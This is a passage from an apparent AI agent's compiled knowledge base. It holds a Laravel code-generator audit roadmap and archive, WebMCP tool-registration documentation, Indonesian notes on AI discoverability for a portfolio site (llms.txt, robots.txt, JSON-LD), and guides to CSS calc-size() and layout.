5. Tambahkan `use Illuminate\Support\Facades\Schema;` import validation di migration output

### Phase B — ARCHITECTURE OVERHAUL (3-5 hari)
6. Expand blueprint schema: `seeders`, `routes`, `middleware`, `pivot_tables`, `relationships`
7. Tambahkan ImplementationPhase steps: generate routes, seeders, factories, middleware, layouts
8. Tambahkan auth scaffolding otomatis (Breeze/Fortify)
9. Fix stability loop: iterative port scan, process cleanup, max-total-attempts guard
10. Integrasikan `cleanCodeAndVerify` ke dalam `_doRunCycle()`

### Phase C — QUALITY GATE (2-3 hari)
11. Post-generation PHP syntax validation (`php -l` per file)
12. Post-generation artisan smoke test (`php artisan route:list`)
13. Model-Migration consistency check (UUID ↔ HasUuids, SoftDeletes ↔ softDeletes column)
14. Comprehensive legacy cleanup berdasarkan blueprint diff

### Phase D — 100% WEB APP TARGET (5-7 hari)
15. Generate proper layouts (nav, sidebar, footer) via Blade template
16. Generate proper CRUD views (index, create, edit, show)
17. Generate authorization policies per model
18. Generate comprehensive seeders dengan realistic dummy data
19. Generate API endpoints untuk setiap resource
20. Generate proper Tailwind theme per project type

---

## 📎 LAMPIRAN: FILE YANG DI-SCAN

| File | Lines | Purpose |
|------|-------|---------|
| `cli.js` | 309 | CLI entry point |
| `agent/main.js` | 292 | Engine dispatcher |
| `agent/core/NexusEngine.js` | 511 | Core orchestrator |
| `agent/core/EvolutionPiper.js` | 314 | Sandbox spawner |
| `agent/core/SandboxExecutor.js` | 80 | Plugin executor |
| `agent/core/LocalIntelligence.js` | 230 | Ollama AI interface |
| `agent/core/Modifier.js` | 230 | File modifier |
| `agent/core/Orchestrator.js` | 239 | Task router |
| `agent/core/MemoryPipeline.js` | 241 | Memory optimizer |
| `agent/core/ParallelRunner.js` | 40 | Concurrency controller |
| `agent/core/phases/AuditPhase.js` | 189 | Audit phase |
| `agent/core/phases/PlanningPhase.js` | 73 | Planning phase |
| `agent/core/phases/ImplementationPhase.js` | 200 | Code generation |
| `agent/core/phases/ExecutionPhase.js` | 411 | Execution & stability |
| `agent/core/phases/KnowledgePhase.js` | 104 | Knowledge harvesting |
| `tests/TDD/sandbox-master-runner.js` | 155 | Master runner |
| `tests/TDD/phase1_testing.js` | 175 | Section 1 runner |
| `tests/TDD/setup_section2.js` | 161 | Section 2 runner |
| `tests/TDD/setup_dynamic_section.js` | 176 | Dynamic section runner |
| `tests/TDD/100-projects-data.js` | 80 | Project definitions |
| `nexus-sandbox.ps1` | 197 | PowerShell runner |
| Output: `notes-app-tagging/*` | - | Sample sandbox output |

---

> **METADATA (NEXUS SEMANTIC TAGS)**: [audit, sandbox, pipeline, critical-bugs, architecture, code-generation, stability]

*Generated by Antigravity Extreme Audit | 2026-05-19*

### 📘 KNOWLEDGE: NEXUS_SESSION_HISTORY_ARCHIVE.MD

## 📁 ARCHIVED AUDITS - 26/05/2026
- **Audit ID**: AUDIT-1778479692344 | **Target**: C:\Users\ACER\Desktop\NEXUS AI | **Findings**: 8
- **Audit ID**: AUDIT-1778660095718 | **Target**: C:\Users\ACER\Desktop\NEXUS AI | **Findings**: 29
- **Audit ID**: AUDIT-1778912740298 | **Target**: c:/Users/ACER/Desktop/NEXUS AI | **Findings**: 0
- **Audit ID**: AUDIT-1778912740611 | **Target**: c:/Users/ACER/Desktop/NEXUS AI | **Findings**: 0
- **Audit ID**: AUDIT-1778912740711 | **Target**: c:/Users/ACER/Desktop/NEXUS AI | **Findings**: 0
- **Audit ID**: AUDIT-1779702317598 | **Target**: C:\Users\ACER\Desktop\NEXUS-AI | **Findings**: 39
- **Audit ID**: AUDIT-1778660095718-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS AI | **Findings**: 1
- **Audit ID**: AUDIT-1779702317598-CYBER-SECURITY | **Target**: C:\Users\ACER\Desktop\NEXUS-AI | **Findings**: 1
- **Audit ID**: AUDIT-1778660095718-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI | **Findings**: 1
- **Audit ID**: AUDIT-1779702317598-DATABASE-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS-AI | **Findings**: 1
- **Audit ID**: AUDIT-1778660095718-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI | **Findings**: 11
- **Audit ID**: AUDIT-1779702317598-DOCUMENTATION-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS-AI | **Findings**: 17
- **Audit ID**: AUDIT-1778660095718-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS AI | **Findings**: 1
- **Audit ID**: AUDIT-1779702317598-SEO-PERFORMANCE-SPECIALIST | **Target**: C:\Users\ACER\Desktop\NEXUS-AI | **Findings**: 1
- **Audit ID**: AUDIT-1778660095718-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS AI | **Findings**: 1
- **Audit ID**: AUDIT-1779702317598-UX-ENGINEER | **Target**: C:\Users\ACER\Desktop\NEXUS-AI | **Findings**: 1
- **Audit ID**: AUDIT-1778660095718-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS AI | **Findings**: 1
- **Audit ID**: AUDIT-1779702317598-VCS-ARCHITECT | **Target**: C:\Users\ACER\Desktop\NEXUS-AI | **Findings**: 17


## 🛠 ARCHIVED PLANS - 26/05/2026
- **Plan ID**: PLAN-1778479790742 | **Audit Ref**: AUDIT-1778479692344 | **Tasks**: 8
- **Plan ID**: PLAN-1778912740316 | **Audit Ref**: AUDIT-1778912740298 | **Tasks**: 0
- **Plan ID**: PLAN-1778912740619 | **Audit Ref**: AUDIT-1778912740611 | **Tasks**: 0
- **Plan ID**: PLAN-1778912740718 | **Audit Ref**: AUDIT-1778912740711 | **Tasks**: 0
- **Plan ID**: PLAN-1779702319557 | **Audit Ref**: AUDIT-1779702317598 | **Tasks**: 37


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [audit, performance, testing, tdd]

### 📘 KNOWLEDGE: NEXUS_AGENTIC-JAVASCRIPT-TOOLS.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

The Imperative API uses `navigator.modelContext.registerTool()` to programmatically define JavaScript tools. This is ideal for Single Page Applications (SPAs) where tools need to be added or removed based on the current route or user state.

## Registration and Lifecycle

Tools are registered by passing a tool definition object and an optional options object containing an `AbortSignal`.

### Lifecycle Handling with `AbortController`

WebMCP does not provide an `unregisterTool()` method. To unregister a tool, you must pass an `AbortSignal` during registration and abort that signal when the tool is no longer needed.

```javascript
const controller = new AbortController();

navigator.modelContext.registerTool({
  name: "get_user_preferences",
  description: "Retrieves the user's saved preferences.",
  inputSchema: { type: "object", properties: {} },
  execute() {
    const prefs = localStorage.getItem("user_prefs");
    return prefs ? JSON.parse(prefs) : { theme: "light" };
  },
  annotations: { readOnlyHint: true }
}, { signal: controller.signal });

// To unregister the tool (e.g., on component unmount):
controller.abort();
```

## Defining Parameters

Parameters (params) are defined using the `inputSchema` property. This must be a **JSON Schema** object that describes the structured data the tool expects.

```javascript
navigator.modelContext.registerTool({
  name: "calculate_area",
  description: "Calculates the area of a rectangle.",
  inputSchema: {
    type: "object",
    properties: {
      width: { type: "number", description: "The width of the rectangle." },
      height: { type: "number", description: "The height of the rectangle." }
    },
    required: ["width", "height"]
  },
  execute(input) {
    // input is { width: 10, height: 20 }
    return input.width * input.height;
  },
  annotations: { readOnlyHint: true }
});
```

## Execution Patterns

### When to use `async execute`
Use `async` when the tool involves operations that return a Promise or take time to complete:
- **Network calls**: Fetching data from an API.
- **Asynchronous Storage**: Accessing IndexedDB.
- **External Events**: Waiting for a specific state change or animation to finish.

```javascript
async execute(input) {
  const response = await fetch(`/api/data/${input.id}`);
  return await response.json();
}
```

### When to use `execute` (Synchronous)
Use a standard synchronous function for immediate operations:
- **Pure logic**: Math, filtering, or sorting data already in memory.
- **Synchronous state**: Reading from `localStorage` or a synchronous state manager.

```javascript
execute(input) {
  return input.items.filter(item => item.active);
}
```

## Tool Factory Pattern

To pass context (like stores or application instances) to your tools, use factory functions.

```javascript
export function createInventoryTool(inventoryManager) {
  return {
    name: "get_inventory",
    description: "Lists items in the inventory.",
    inputSchema: { type: "object", properties: {} },
    execute() {
      return inventoryManager.getItems();
    },
    annotations: { readOnlyHint: true }
  };
}
```

## API Notes

*   **annotations**: (Optional) A dictionary for tool metadata.
    *   **readOnlyHint**: (Optional) Set to `true` if the tool does not modify any state and only reads data. This helps agents decide when it is safe to call the tool.
*   **Return Format**: The `execute` function can return any value (object, array, string, number, boolean). Select a structure that best serves your specific use case while ensuring the content is optimized for the LLM to process. The output may encompass raw data, specific error logs, or direct instructions to influence the agent's next action.
*   **Secure Context**: WebMCP requires HTTPS.
*   **Deprecated/Removed**: `unregisterTool()`, `provideContext()`, and `clearContext()` are no longer supported.

## Fallback strategies

navigator.modelContext is not natively supported by any major browser yet.

The WebMCP Imperative API should be used with feature detection to ensure compatibility with browsers that do not yet support WebMCP.

```javascript
if ('modelContext' in navigator && 'registerTool' in navigator.modelContext) {
  // Register tools
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [database, ui-ux, performance, tdd, api]

### 📘 KNOWLEDGE: NEXUS_AI INDEXING PORTOFOLIO.MD

# AI Indexing & Discoverability — faisalyusra.my.id
> **VERSION**: v1 | **Last Updated**: 26/05/2026


> Catatan teknis hasil diskusi dengan AI Engineer · Mei 2026

---

## Konteks

SEO tradisional masih relevan, tapi sekarang ada lapisan baru: **AI Discoverability** — yaitu agar websitemu bisa dibaca, dipahami, dan dikutip oleh sistem AI seperti ChatGPT, Perplexity, Google AI Overview, Claude, dan Bing Copilot.

Website: **https://faisalyusra.my.id**  
Stack: Laravel + Livewire + Filament + Tailwind CSS  
Lokasi: Bukittinggi, Sumatera Barat

---

## Audit Hasil Cek

### ✅ Yang Sudah Ada (Bagus)

| Item | Keterangan |
|------|------------|
| Meta description | Ada, deskriptif |
| Meta keywords | Ada |
| OG Tags | Lengkap (og:title, og:image, og:description, dll) |
| Twitter Card | `summary_large_image` |
| Google Site Verification | Ada |
| `robots: index, follow` | Ada |
| Canonical URL | Dinamis via `url()->current()` |
| **JSON-LD Schema (`@graph`)** | Sudah ada & lengkap di `layout/app.blade.php` |
| **`@stack('schemas')`** | Siap untuk inject schema tambahan per halaman |

### ❌ Yang Belum Ada

| Item | Prioritas |
|------|-----------|
| `llms.txt` | 🔴 Tinggi |
| AI crawler di `robots.txt` | 🔴 Tinggi |
| FAQ Schema di `/service` | 🟡 Medium |
| `ArticleSchema` di halaman blog detail | 🟡 Medium |
| JSON Feed (`/feed.json`) | 🟡 Medium |
| Sitemap blog dinamis | 🟡 Medium |

---

## Detail JSON-LD Schema (Sudah Ada)

Lokasi file: `resources/views/layouts/app.blade.php`  
Pattern: **Satu `<script>` + `@graph`** — best practice 2026

### Schema yang sudah terdaftar:

**1. Person Schema**
```json
{
  "@type": "Person",
  "@id": "https://faisalyusra.my.id/#person",
  "name": "Muhammad Faisal Alyusra",
  "alternateName": "Faisal Yusra",
  "jobTitle": "IT Support Spesialis | Web Developer & Digital Consultant",
  "knowsAbout": ["Laravel", "Livewire", "Filament", "Tailwind CSS", "..."],
  "alumniOf": "UIN Sjech M Djamil Djambek Bukittinggi",
  "sameAs": ["LinkedIn", "Google Maps", "GitHub", "Google Scholar"]
}
```

**2. ProfessionalService Schema**
```json
{
  "@type": "ProfessionalService",
  "@id": "https://faisalyusra.my.id/#service",
  "name": "Faisal Yusra | Web Developer & Digital Consultant Bukittinggi",
  "geo": { "latitude": -0.311639, "longitude": 100.38725 },
  "openingHours": "Senin–Sabtu, 08:00–17:00",
  "founder": { "@id": "https://faisalyusra.my.id/#person" }
}
```

**3. WebPage Schema (Dinamis)**
```json
{
  "@type": "WebPage",
  "@id": "[url()->current()]#webpage",
  "publisher": { "@id": "https://faisalyusra.my.id/#service" }
}
```

**4. Blog Schema (Conditional)**
> Aktif otomatis kalau route = `/blog`
```json
{
  "@type": ["WebPage", "Blog"],
  "mainEntity": {
    "@type": "Blog",
    "name": "Blog Faisal Yusra"
  }
}
```

---

## Yang Perlu Dibuat

### 1. `llms.txt`

**Konsep:** File plain text/markdown yang kasih tau LLM crawler siapa kamu dan konten apa yang relevan. Seperti `robots.txt` tapi untuk AI.

**Lokasi:** `public/llms.txt` → akses via `https://faisalyusra.my.id/llms.txt`

**Opsi implementasi:**
- **Statis** — file `.txt` biasa di folder `public/`
- **Dinamis** — route Laravel yang generate konten dari database (lebih powerful)

**Contoh isi:**
```
# Faisal Yusra — Web Developer & Digital Consultant

> Web Developer dan Digital Consultant berbasis di Bukittinggi, Sumatera Barat.
> Membantu UMKM lokal tumbuh melalui teknologi dan memberdayakan talent muda digital.

## Layanan Utama
- Web Application Development (Laravel, PHP)
- IT Support & Maintenance untuk UMKM
- UI/UX Design fungsional
- Digital Consulting untuk bisnis lokal
- Goes To School Program
- Social Media Handling

## Halaman Penting
- [Tentang](https://faisalyusra.my.id/about)
- [Layanan & Harga](https://faisalyusra.my.id/service)
- [Portofolio](https://faisalyusra.my.id/portfolio)
- [Blog](https://faisalyusra.my.id/blog)
- [Kontak](https://faisalyusra.my.id/contact)
```

---

### 2. Update `robots.txt`

Tambahkan izin untuk AI crawler utama:

```
User-agent: GPTBot
Allow: /

User-agent: ClaudeBot
Allow: /

User-agent: PerplexityBot
Allow: /

User-agent: GoogleExtendedBot
Allow: /

User-agent: *
Allow: /

Sitemap: https://faisalyusra.my.id/sitemap.xml
```

---

### 3. FAQ Schema di `/service`

Inject via `@push('schemas')` di view `service.blade.php`.

```blade
@push('schemas')
<script type="application/ld+json">
{
  "@context": "https://schema.org",
  "@type": "FAQPage",
  "mainEntity": [
    {
      "@type": "Question",
      "name": "Berapa biaya jasa pembuatan website di Bukittinggi?",
      "acceptedAnswer": {
        "@type": "Answer",
        "text": "Harga bervariasi tergantung kebutuhan. Tersedia paket untuk UMKM yang disesuaikan dengan tahap bisnis dan anggaran. Hubungi untuk konsultasi gratis."
      }
    },
    {
      "@type": "Question",
      "name": "Apa saja layanan yang tersedia?",
      "acceptedAnswer": {
        "@type": "Answer",
        "text": "Web Application, IT Support, UI/UX Design, Digital Consulting, Goes To School Program, dan Social Media Handling."
      }
    },
    {
      "@type": "Question",
      "name": "Apakah melayani klien di luar Bukittinggi?",
      "acceptedAnswer": {
        "@type": "Answer",
        "text": "Ya, melayani seluruh Indonesia secara remote, dengan fokus utama di Sumatera Barat."
      }
    }
  ]
}
</script>
@endpush
```

---

### 4. Article Schema di Blog Detail

Inject di `blog/show.blade.php` atau `post.blade.php`.

```blade
@push('schemas')
<script type="application/ld+json">
{
  "@context": "https://schema.org",
  "@type": "Article",
  "headline": "{{ $post->title }}",
  "description": "{{ $post->excerpt }}",
  "datePublished": "{{ $post->created_at->toIso8601String() }}",
  "dateModified": "{{ $post->updated_at->toIso8601String() }}",
  "author": { "@id": "https://faisalyusra.my.id/#person" },
  "publisher": { "@id": "https://faisalyusra.my.id/#service" },
  "url": "{{ url()->current() }}",
  "image": "{{ $post->cover_image ?? asset('img/loggo.webp') }}"
}
</script>
@endpush
```

---

### 5. Blog sebagai "DB Publik" yang Bisa Dibaca AI

Supaya konten blog bisa di-consume secara universal oleh AI dan mesin lain:

| Format | Endpoint | Fungsi |
|--------|----------|--------|
| **Sitemap XML** | `/sitemap.xml` | Wajib — yang pertama di-scan AI crawler |
| **JSON Feed** | `/feed.json` | Modern, mudah di-parse AI |
| **RSS Feed** | `/feed.xml` | Standar lama, masih dibaca banyak agregator |
| **Public API** | `/api/posts` | Paling fleksibel, return JSON murni |

**Implementasi di Laravel (routes/web.php):**
```php
// JSON Feed
Route::get('/feed.json', [FeedController::class, 'json']);

// RSS
Route::get('/feed.xml', [FeedController::class, 'rss']);

// Sitemap
Route::get('/sitemap.xml', [SitemapController::class, 'index']);
```

---

## Checklist Pengerjaan

- [ ] Buat `public/llms.txt`
- [ ] Update `public/robots.txt` — tambah AI crawler
- [ ] Tambah FAQ Schema di `service.blade.php` via `@push('schemas')`
- [ ] Tambah Article Schema di halaman blog detail
- [ ] Buat route `/sitemap.xml` dinamis dari DB
- [ ] Buat route `/feed.json` untuk blog
- [ ] (Opsional) Buat route `/api/posts` public

---

## Catatan Penting

> **JSON-LD sudah lengkap** — jangan diubah, sudah best practice.  
> **`@stack('schemas')`** sudah siap — tinggal pakai `@push('schemas')` di tiap view.  
> **Blog** — konten yang dalam dan faktual adalah amunisi utama agar AI mau mengutip websitemu.  
> **llms.txt** bisa dibuat dinamis dari DB supaya selalu up-to-date mengikuti layanan/portofolio terbaru.

---

*Dokumen ini dibuat berdasarkan audit langsung terhadap https://faisalyusra.my.id · Mei 2026*

---
> **METADATA (NEXUS SEMANTIC TAGS)**: [database, ui-ux, performance, vcs, api]

### 📘 KNOWLEDGE: NEXUS_CALCULATE-WITH-INTRINSIC-SIZES.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

`calc-size()` is a CSS function for performing mathematical operations on intrinsic sizing keywords like `auto`, `min-content`, and `fit-content`. **MANDATORY**: Use `calc-size()` only when you need to modify an intrinsic size with a calculation or constraint; for simple keyword-based animations (e.g., `0` to `auto`), you must use `interpolate-size: allow-keywords`.

## Implementation Steps

1. **Identify the Intrinsic Basis**: Determine which intrinsic keyword (`auto`, `min-content`, etc.) should form the base of your calculation.
2. **Define Constraints**: Use CSS math functions like `clamp()`, `min()`, or `max()` within the second argument to enforce design constraints on the intrinsic size.
3. **MANDATORY: Provide a Fallback**: Always declare a standard sizing keyword or length immediately before the property using `calc-size()` to ensure the layout remains functional in unsupported browsers.
4. **Apply Logical Properties**: Default to using logical properties like `inline-size` or `block-size` to ensure the calculations respect the document's writing mode.
5. **Optional: Progressive Enhancement**: Wrap complex layout logic or animations in a `@supports (inline-size: calc-size(auto, size + 0px))` block to deliver advanced features only to capable browsers.

## Basic Syntax

```css
/* calc-size(<calc-size-basis>, <calc-sum>) — mathematical operations on intrinsic sizing keywords */
.element {
  /* MANDATORY: Always provide a fallback for browsers that do not support calc-size() */
  inline-size: min-content;
  
  /* DO: Use calc-size to modify an intrinsic basis with a calculation or function */
  inline-size: calc-size(min-content, size + 2rem);
}
```

### Valid Basis Arguments (`<calc-size-basis>`)
The first argument defines the "base" size for the calculation.

**Standard Keywords:**
- `auto`: The default sizing for the element.
- `min-content`: The smallest size the element can take without overflowing.
- `max-content`: The size the element takes to fit all content on one line.
- `fit-content`: Equivalent to `clamp(min-content, auto, max-content)`.
- `content`: Only valid when `calc-size()` is used within the `flex-basis` property.

**Special Arguments:**
- `any`: A generic basis used when the specific intrinsic type is unknown or when nesting calculations.
- Nested `calc-size()`: Allows for multi-step or conditional calculations.
- `<calc-sum>`: A specific length, percentage, or mathematical expression (e.g., `100px` or `20%`). When a fixed value is used as the basis, the **`size` keyword is still available** (but only within the second argument) and represents the resolved value of that basis.

**MANDATORY**: The `size` keyword is **not valid** within the first argument (`<calc-size-basis>`) itself. It is a local variable that only exists to refer back to the basis from within the second argument (`<calc-sum>`).

### Valid Calculation Arguments (`<calc-sum>`)
The second argument is the mathematical expression.
- It typically uses the `size` keyword to refer to the value of the basis.
- While the `size` keyword is technically optional, omitting it means the calculation will resolve to a fixed value, ignoring the basis entirely.
- It can include standard math operators (`+`, `-`, `*`, `/`).
- It can include CSS math functions like `clamp()`, `min()`, `max()`, and `round()`.
- **MANDATORY**: `calc-size()` only allows a **single** intrinsic size value (the basis) in each calculation. You cannot mix intrinsic sizing keywords in the same `calc-size()` call.

## Use Cases

### Animating to and from Intrinsic Sizes
By default, browsers cannot interpolate between a length (e.g., `0px`) and an intrinsic keyword (e.g., `auto`). Wrapping the keyword in `calc-size()` makes it an interpolatable value.

#### Choosing the Right Tool for Animations
- **MANDATORY: Use `interpolate-size: allow-keywords`**: For simple animations to or from intrinsic sizes (e.g., `height: 0` to `height: auto`) without any mathematical modifications. This is the required approach for simple keyword interpolation and should ideally be applied globally via `:root`.

  ```css
  :root {
    /* Best practice: Enable keyword interpolation globally */
    interpolate-size: allow-keywords;
  }

  .item {
    height: 0;
    transition: height 0.3s ease;
  }

  .item.open {
    /* Simple interpolation from 0 to auto now works without calc-size() */
    height: auto;
  }
  ```

- **Use `calc-size()`**: ONLY when you need to perform mathematical calculations on an intrinsic size during a transition (e.g., adding padding or clamping the size).

```css
.accordion-content {
  display: block;
  overflow: hidden;
  /* MANDATORY: Fallback value for closed state */
  block-size: 0;
  transition: block-size 0.3s ease-out;
}

.accordion-content.open {
  /* MANDATORY: Fallback value for open state */
  block-size: auto;

  /* 
    DO: Use calc-size(auto, ...) to enable animation from 0 to the element's 
    intrinsic size while doing a calculation (in this case, adding a space of 2rem).
  */
  block-size: calc-size(auto, size + 2rem);
}
```

**MANDATORY**: Interpolation between two intrinsic sizing keywords is not possible directly. One end of the transition must be a length or a percentage.

#### Respecting User Motion Preferences
Animations that change the size of large layout areas can be particularly disruptive for users with vestibular disorders. **MANDATORY**: Always respect user motion preferences by using the `prefers-reduced-motion` media query to simplify or minimize non-essential animations. Common strategies include disabling motion entirely, reducing duration, or replacing layout shifts with subtle opacity transitions.

```css
.accordion-content {
  opacity: 0;
  transition: block-size 0.3s ease, opacity 0.3s ease;
}

.accordion-content.open {
  opacity: 1;
}

@media (prefers-reduced-motion: reduce) {
  .accordion-content {
    /* 
       EXAMPLE: Replacing disruptive layout animations with a subtle fade-in.
       Setting the block-size instantly and transitioning opacity 
       provides a clear state change without large-scale motion.
    */
    transition: opacity 1.5s ease;
  }

  .accordion-content.open {
    /* Jump the size instantly */
    block-size: auto;
  }
}
```


### Applying Constraints to Intrinsic Sizes
You can use `calc-size()` with any CSS math function—such as `min()`, `max()`, `clamp()`, or `round()`—to ensure an element's intrinsic size remains within design boundaries.

```css
.dynamic-container {
  /* MANDATORY: Always provide a fallback for browsers that do not support calc-size() */
  inline-size: fit-content;

  /* 
    DO: Establish a dynamic size based on content, while:
    1. Enforcing boundaries using CSS math functions (min, clamp, etc.)
    2. Modifying the intrinsic size with fixed or relative offsets
  */
  inline-size: calc-size(fit-content, min(size + var(--extra-space), var(--max-allowed)));
}
```

## Critical Considerations

- **Percentage Pitfalls**: Percentages inside the `<calc-sum>` are resolved against the **container's size**, not the `size` keyword. For example, `calc-size(auto, size + 10%)` adds 10% of the *parent's* width to the element's `auto` width, which may lead to unexpected results or overflows.
- **Calculations requirement**: **MANDATORY**: Use `interpolate-size: allow-keywords` instead of `calc-size()` for simple animations (e.g., `0` to `auto`). `calc-size()` should only be used when the layout requires dynamic mathematical adjustments to the intrinsic base.
- **Performance Note**: Animating box model properties like `inline-size` or `block-size` triggers layout recalculations, which can be expensive. Use `calc-size()` animations primarily for layout-critical elements where non-layout alternatives are insufficient.

## Fallback strategies

calc-size() has limited availability.
Supported by: Chrome 129 (Sep 2024) and Edge 129 (Sep 2024).
Unsupported in: Firefox and Safari.
interpolate-size has limited availability.
Supported by: Chrome 129 (Sep 2024) and Edge 129 (Sep 2024).
Unsupported in: Firefox and Safari.

`calc-size()` and `interpolate-size` are **progressive enhancements**. In browsers that do not support them, the properties will be ignored and the layout will remain functional, though animations to intrinsic keywords will jump instead of transitioning. Always provide a standard keyword or length as a fallback.

```css
.element {
  /* Fallback for browsers that don't support calc-size() */
  inline-size: fit-content; 
  /* Modern browsers will override the fallback */
  inline-size: calc-size(fit-content, size + 2rem);
}
```

### Animation and Transition Fallbacks
In browsers without support for `calc-size()` or `interpolate-size`, transitions involving intrinsic sizing keywords will fail to interpolate. 

- **Graceful Degradation**: The default fallback is an "instant jump" between states (e.g., from `0` to `auto`). This is often acceptable as the layout remains functional.
- **Enhanced Experience**: Use `@supports` to apply complex layout logic or additional styling that only makes sense when smooth intrinsic animations are possible.
- **Avoid JS-based measurements**: While you could use JavaScript to measure elements and manually animate their dimensions, this is often unnecessary and can lead to layout thrashing. Relying on the native "instant jump" is the recommended fallback for modern web applications.

For animations, the fallback experience will be an instant jump to the final size. To detect support in CSS or JavaScript:

```css
/* CSS Feature Detection */
@supports (inline-size: calc-size(auto, size + 0px)) {
  .element {
    /* Apply advanced logic only when supported */
  }
}
```

```javascript
/* JavaScript Feature Detection */
if (CSS.supports('inline-size', 'calc-size(auto, size + 0px)')) {
  // Apply advanced sizing or animations
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [database, ui-ux]

### 📘 KNOWLEDGE: NEXUS_CSS-LAYOUT.MD

# CSS Layouts and Responsive Design
> **VERSION**: v1 | **Last Updated**: 26/05/2026


1. [1 Fundamentals](#1-fundamentals)
   1. [Which layout mode to use?](#11-which-layout-mode-to-use)
   2. [Working principles](#12-working-principles)
2. [2 Flexbox](#2-flexbox)
3. [3 Grid and subgrid](#3-grid-and-subgrid)
   1. [Code example: grid and subgrid](#31-code-example-grid-and-subgrid)
4. [4 Container queries](#4-container-queries)
   1. [Code example: fluid typography using container query units](#41-code-example-fluid-typography-using-container-query-units)
5. [5 Native overlays, anchor positioning, and stacking contexts](#5-native-overlays-anchor-positioning-and-stacking-contexts)
6. [6 Overflow tracking and layout stability](#6-overflow-tracking-and-layout-stability)
7. [7 Viewport mechanics and track distribution](#7-viewport-mechanics-and-track-distribution)
8. [8 Grid lanes (aka masonry)](#8-grid-lanes-aka-masonry)

## 1 Fundamentals

Lean on the browser's layout engine when possible for better performance. Reach for intrinsic sizing, logical properties, and `aspect-ratio` before resorting to hardcoded dimensions or complicated media-queries.

### 1.1 Which layout mode to use?

Walk the decision tree top-to-bottom and stop at the first match. Note that layouts can be nested within each-other and each decision is based on the use-case for that container.

1. **Is it a simple row OR column of items?** Use **flexbox** — 1D, content-first, content distributes along a single axis.
2. **Does a nested element need to line up with its grandparent grid's tracks?** Use **subgrid** — 2D, relationship-first, inherits parent tracks so grandchildren can align across siblings.
3. **Is it a complex page or component structure with rows AND columns?** Use **grid** — 2D, layout-first, you define the skeleton and content fills it.
4. **Is the content a long flow of prose that should split into balanced columns?** Use **multi-column** — 1D flow, newspaper-style.
5. **Are items of varied heights that need to be packed tightly?** Use **grid** with `grid-auto-flow: dense` today; reach for native masonry (aka "grid lanes") only when it ships in your Baseline target (see [§8](#8-grid-lanes-aka-masonry)).
6. **Does an element need to float above the page and stay spatially tethered to a trigger, even across DOM boundaries or stacking contexts?** Use **anchor positioning** — `anchor-name` on the trigger, `position-anchor` on the overlay (see [§5](#5-native-overlays-anchor-positioning-and-stacking-contexts)).

### 1.2 Working principles

**Do:**

- Use logical properties (`inline-size`, `block-size`, `margin-inline`, `padding-block`, `inset-inline-start`) for layout dimensions and spacing — see `css` (via `npx -y modern-web-guidance@latest retrieve "css"`) for full coverage.
- Apply the content-first vs layout-first mental model: flexbox when items dictate flow, grid when you define the skeleton first.
- Use the `place-*` shorthands (`place-content`, `place-items`, `place-self`) to align across both axes in one declaration.
- Reach for intrinsic sizing (`min-content`, `max-content`, `fit-content()`) and flexible tracks (`fr`, `minmax()`) before fixed `width`/`height` — fewer media queries, more resilient layouts.
- Use `aspect-ratio` to reserve space for media and prevent layout shift before assets load.

```css
.sidebar       { inline-size: max-content; }    /* Size to longest unbreakable token. */
.main-content  { inline-size: fit-content; }    /* Grow to available space, no further. */
.media         { aspect-ratio: 16 / 9; inline-size: 100%; block-size: auto; }
body.centered  { display: grid; place-content: center; min-block-size: 100dvb; }
```

> For `calc-size()` and constraint-aware intrinsic sizing, see `calculate-with-intrinsic-sizes` (via `npx -y modern-web-guidance@latest retrieve "calculate-with-intrinsic-sizes"`).

## 2 Flexbox

One-dimensional layout — items flow along a single **main** axis with alignment on the **cross** axis. Reach for it for navbars, toolbars, item rows, and any single-row-or-column distribution.

**Do:**

- Establish a context with `display: flex` and set the main axis with `flex-direction` (`row` default).
- Use `flex-wrap: wrap` whenever overflow is a possibility — `nowrap` without `overflow: auto/hidden` will spill on narrow viewports.
- Use the `flex` shorthand `<grow> <shrink> <basis>` (e.g., `flex: 1 1 250px`) on items rather than setting `flex-grow`/`flex-shrink`/`flex-basis` individually.
- Use `gap` (or the `row-gap`/`column-gap` longhand) for spacing between items instead of child margins.
- Prefix positional alignment with `safe` (e.g., `align-items: safe center`) so focusable content isn't clipped when the container is narrower than its content.
- Push a single item to the far end of the main axis with `margin-inline-start: auto` (or `margin-block-start: auto`) — that's the standard escape hatch.
- Override cross-axis alignment per item with `align-self`.
- Use `align-items` to center all items on the cross axis; use `margin: auto` on a single item to center it on both axes independently; use `align-content` only when the container wraps and has extra space across rows.
- Set `min-inline-size: 0` (or `min-width: 0`) on flex items that contain long unbreakable content (URLs, code, long strings) — flex items won't shrink below their content size by default, causing overflow.

**Do not:**

- Don't reach for `justify-self` on flex items — it only works on grid, block, and absolutely-positioned layouts. Use auto margins instead.
- Don't use `order` or `flex-direction: *-reverse` to reorder interactive content. They change visual order only; the DOM order still drives sequential focus, so keyboard tab flow won't match what the user sees.
- Don't confuse `space-around` (half-gap at the ends) with `space-evenly` (equal gaps before, between, and after).
- Don't forget the axis flip: when `flex-direction: column`, `justify-content` aligns on the block axis and `align-items` aligns on the inline axis — the opposite of the default.
- Don't size both the container and its children to fill each other — that's a common source of overflow and surprising results. Give one side a definite size.
- Don't set both `flex-basis` and `width`/`inline-size` on the same item — `flex-basis` takes precedence in a flex context and `width` is ignored. Use `flex-basis` (or the `flex` shorthand) as the single source of truth for sizing flex items.

```css
.card-grid        { display: flex; flex-flow: row wrap; gap: 1rem; }
.card-item        { flex: 1 1 250px; }                  /* grow, shrink, basis */
.card-item-action { margin-inline-start: auto; }        /* Push to main-axis end. */
.toolbar          { display: flex; align-items: safe center; }
```

## 3 Grid and subgrid

Baseline status for Subgrid: Widely available. It's been Baseline since 2023-09-15.
